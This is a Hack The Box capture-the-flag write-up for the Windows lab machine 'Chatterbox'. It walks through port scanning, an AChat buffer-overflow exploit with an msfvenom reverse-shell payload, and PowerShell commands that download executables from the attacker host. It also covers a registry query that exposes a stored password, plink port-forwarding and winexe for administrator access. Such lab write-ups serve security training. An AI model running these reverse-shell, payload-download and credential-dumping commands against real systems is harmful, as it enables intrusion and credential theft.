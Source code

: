 ```yaml
---
layout: post
title:  "HTB Chatterbox Windows"
description: Chatterbox, is a medium difficulty machine from Hack the Box! Great for learning enumeration on windows
tags: Windows, HTB, enumeration
---
```


# Recon
1. Nmap scan
```shell
PORT     STATE SERVICE REASON          VERSION
9255/tcp open  http    syn-ack ttl 127 AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   syn-ack ttl 127 AChat chat system
```

# EXPLOITATION
1. We use Achat python exploit "CVE:2015-1578 2015-1577"
2. We create a msfvenom shellcode to use with the Achat BoF with a windows/shell_reverse_tcp
```shell
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.34 LPORT=9999 -e x86/unicode_mixed -b
'\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d
\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c
\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab
\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba
\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9
\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8
\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7
\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6
\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```
3. We set-up nc and we get shell as user Alfred.

**Optional**: You can create a meterpreter shell with msfvenom and upload it to the targer machine. Then use multi/handler to caght it.Ex
```shell
powershell "(new-object System.Net.WebClient).Downloadfile('http://10.10.14.34/reverse.exe', 'reverse.exe')"
```

# Privelege Escalation Port-forwarding
1. Doing some priv-esc check we find the password for user Alfred

```shell
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"
```

```shell
DefaultDomainName    REG_SZ    
DefaultUserName    REG_SZ    Alfred
DefaultPassword    REG_SZ    Welcome1!
```
2. We use the obtanined credentials and try to reuse them with the admin account. To do that we need to set up SSH in our machine
and  open smb port 445 in our target machine using "plink.exe". Then we do a port-forwarding and then a reverse connection. 
First.
```shell
powershell -c "(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.34/plink.exe', 'plink.exe')"
``
Then.
```shell
plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.34
```
3. We check with netstat to make sure the port 445 is open and connecte to us
4. The we connect reverse using **winexe** and password **"Welcome1!** and we get Admin.
```shell
winexe -U Administrator //127.0.0.1 "cmd.exe
```
|Flags| Hash|
|---|---|
| User | 72290246dfaedb1e3e3ac9d6fb306334|
| Root |a673d1b1fa95c276c5ef2aa13d9dcc7c|
